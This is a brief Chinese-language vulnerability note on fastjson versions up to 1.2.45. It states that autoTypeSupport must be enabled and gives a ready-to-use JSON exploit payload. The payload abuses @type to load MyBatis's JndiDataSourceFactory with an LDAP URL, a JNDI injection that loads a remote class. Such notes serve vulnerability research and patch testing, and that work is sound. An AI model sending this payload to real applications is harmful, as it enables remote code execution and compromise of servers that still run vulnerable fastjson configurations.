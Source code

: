 影响版本：  
- fastjson<=1.2.45

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：
```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1399/Exploit"}}
```


